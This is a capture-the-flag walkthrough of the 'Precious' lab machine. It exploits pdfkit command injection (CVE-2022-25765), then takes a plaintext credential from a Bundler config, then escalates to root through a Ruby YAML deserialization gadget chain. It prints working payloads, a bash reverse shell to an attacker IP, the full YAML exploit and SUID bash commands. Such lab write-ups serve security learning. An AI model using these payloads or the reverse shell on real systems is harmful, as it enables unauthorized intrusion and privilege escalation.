

# Precious

## Machine info:

Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


## Enumeration

```bash
C:\home\kali\htb> rustscan -a 10.129.228.98 -b 500 --ulimit 1000 -t 2000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 1000.
Open 10.129.228.98:22
Open 10.129.228.98:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 11:47 EDT
Initiating Ping Scan at 11:47
Scanning 10.129.228.98 [4 ports]
Completed Ping Scan at 11:47, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:47
Scanning precious.htb (10.129.228.98) [2 ports]
Discovered open port 80/tcp on 10.129.228.98
Discovered open port 22/tcp on 10.129.228.98
Completed SYN Stealth Scan at 11:47, 0.08s elapsed (2 total ports)
Nmap scan report for precious.htb (10.129.228.98)
Host is up, received echo-reply ttl 63 (0.060s latency).
Scanned at 2025-04-17 11:47:43 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

## Subdomain Brute Force

```bash
C:\usr\share\seclists> ffuf -u 10.129.228.98 -H "Host: FUZZ.precious.htb" -w Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : 10.129.228.98
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.precious.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 20000 req/sec :: Duration: [0:00:01] :: Errors: 19966 ::
```

Nothing found...

## Website

<figure><figcaption></figcaption></figure>

I am using my local python server:

```bash
C:\home\kali> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [17/Apr/2025 12:45:12] "GET / HTTP/1.1" 200 -
```

.png>)

Let's try if we can read `local files`

.png>)\
It hangs there for a while... I should be blocked then...

Burp `post`

```
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://precious.htb
Connection: close
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1

url=http://10.129.228.98/
```

### Tech stack

```bash
C:\home\kali> curl -s http://precious.htb -v | head
* Host precious.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.228.98, 10.129.228.98
*   Trying 10.129.228.98:80...
* Connected to precious.htb (10.129.228.98) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: precious.htb
> User-Agent: curl/8.13.0-rc2
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Content-Type: text/html;charset=utf-8
< Content-Length: 483
< Connection: keep-alive
< Status: 200 OK
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Date: Thu, 17 Apr 2025 16:49:25 GMT
< X-Powered-By: Phusion Passenger(R) 6.0.15
< Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
< X-Runtime: Ruby
```

Interesting:

1. Phusion Passenger(R) 6.0.15
2. < X-Runtime: Ruby

Now, checking the `PDF` that was previously created by the website. We'll chck for metadata

```bash
C:\home\kali\htb\precious> exiftool 0mlvmc3yq2x31wwzyoy9ibey99gvepam.pdf             
ExifTool Version Number         : 13.10
File Name                       : 0mlvmc3yq2x31wwzyoy9ibey99gvepam.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2025:04:04 11:51:24-04:00
File Access Date/Time           : 2025:04:17 12:52:14-04:00
File Inode Change Date/Time     : 2025:04:17 12:52:14-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We were able to find a cve: Introduced: 14 Jun 2022

[CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765)

````bash
## Overview

Affected versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

**NOTE:** This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.

## PoC:

An application could be vulnerable if it tries to render a URL that contains query string parameters with user input:

```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
````

If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:

```ruby
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command
wkhtmltopdf --quiet [...] "http://example.com/?name=%20`sleep 5`" -
=> nil
```

**Payload**

```
http://10.10.14.100/?name=%20`id
```

<figure><figcaption></figcaption></figure>

We were able to validate the command injection.

**Rev shell**

```bash
http://10.10.14.100:8000/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.100/444 0>&1"`
```

<figure><figcaption></figcaption></figure>

\
We got the shell!!!

## Henry

After some time, I found an interesting file:\
This is a quick recap:

```bash
ruby@precious:/var/www/pdfapp$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
ruby@precious:/var/www/pdfapp$ cd
cd
ruby@precious:~$ ls
ls
ruby@precious:~$ cd home
lscd home
bash: cd: home: No such file or directory
ruby@precious:~$ 
ls
ruby@precious:~$ ls
ls
ruby@precious:~$ cd .. 
cd ..
ruby@precious:/home$ ls
ls
henry
ruby
ruby@precious:/home$ cd   
cd
ruby@precious:~$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 Apr 17 12:45 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Apr 17 12:45 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cat .bundle
cat .bundle
cat: .bundle: Is a directory
ruby@precious:~$ cd .bundle
cd .bundle
ruby@precious:~/.bundle$ ls
ls
config
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH
```

### Shell as a root

Since, we have a full shell with the user Henry is time to escalate privilege to `root`

```bash
henry@precious:~$ sudo -l                                                                                                                                                                                                                   
Matching Defaults entries for henry on precious:                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                                     
User henry may run the following commands on precious:                                                                                                                                                                                      
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb                                                                                                                                                                              
henry@precious:~$ cd /dev/shm
henry@precious:/dev/shm$ ls
henry@precious:/dev/shm$ nano dependencies.yml
henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:/dev/shm$ ls
dependencies.yml
henry@precious:/dev/shm$ /tmp/jay -p
jay-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
jay-5.1# 
```

## Explination

There is an interesting file `update_dependencies.rb`\
When we check this we found out is the `manager gems`

```
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Let's check the `dependencies.yml`

```
def list_from_file
   YAML.load(File.read("dependencies.yml"))
end
```

As we can see we are `loading` a external file...

<figure><figcaption></figcaption></figure>

\
We found the payload in this `gist` https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby\_yaml\_load\_sploit2-yaml

## POC

```
henry@precious:/dev/shm$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

We found the payload works!!!

```
henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
...[snip]...
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into Str
```

## Shell

We edit the following line:

```
             git_set: cp /bin/bash /tmp/jay; chmod 6777 /tmp/jay
```

We will copy `bash` and make the copy `SetUID` and `SetGID` for root

**Explanation by chatgpt**

* **Copy `bash` to `/tmp/bash`**: The attacker is attempting to copy the `bash` shell (or any other program) to a location where they have write access, in this case, `/tmp`. This allows them to execute a shell from this location.
* **Set the `SetUID` and `SetGID` bits**:
  * **`SetUID (Set User ID)`**: This special permission allows an executable to run with the privileges of the file's owner, which is often root. When `SetUID` is set on a binary like `bash`, even if a user with lower privileges runs it, it will execute with root privileges.
  * **`SetGID (Set Group ID)`**: Similar to `SetUID`, the `SetGID` permission makes the executable run with the group privileges of the file owner, typically root as well.

By copying `bash` to a writable directory and setting the `SetUID` and `SetGID` permissions, the attacker can make this shell run with root privileges when executed, regardless of the user's privileges.

Now we run the script:

```
henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
...[snip]...
henry@precious:/dev/shm$ ls -l /tmp/jay 
-rwsrwxrwx 1 root root 1234376 May 17 22:05 /tmp/jay
```

Now, we use the `-p` gives the `UID` and `GID` as root:

```
henry@precious:/dev/shm$ /tmp/jay -p
0xdf-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
```
